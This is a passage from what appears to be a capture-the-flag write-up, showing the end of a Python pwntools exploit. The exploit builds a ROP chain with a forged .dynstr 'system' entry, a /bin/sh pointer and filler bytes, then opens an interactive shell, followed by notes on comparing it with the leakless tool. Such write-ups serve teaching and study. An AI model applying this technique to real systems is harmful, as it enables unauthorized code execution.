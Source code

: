 ```
# esp will be pointing here when we return from looking up system
# the return address when we get to the system call, its value doesn't matter
# because we don't return from system.
# Just for fun, though, let's make it a call to _exit. That should call two
# shells.
payload2 += p32(0x0804855f) # call _exit
# pointer to /bin/sh, the argument to system that's stored on the stack
payload2 += p32(0x0804ad90)
payload2 += p32(0x0)
### End of ROP chain #2.
#
### Some filler and the /bin/sh pointer
payload2 += 'A'*44
payload2 += '/bin/sh\x00'
payload2 += 'A'*16
#
### Fake .dynstr entry
payload2 += 'system\x00\x00' # address: 0x0804ada8 = .dynstr + 0x2b1c
#
payload2 += '\n'
#
##############################

time.sleep(DELAY)
p.send(payload2)

p.interactive()
```

### Future work / comparison to other solutions

I'd like to take the `leakless` program and run it on this binary to generate a ROP chain, then compare it to the one I generated manually. I'm going to do that before comparing my approach to other write-ups.

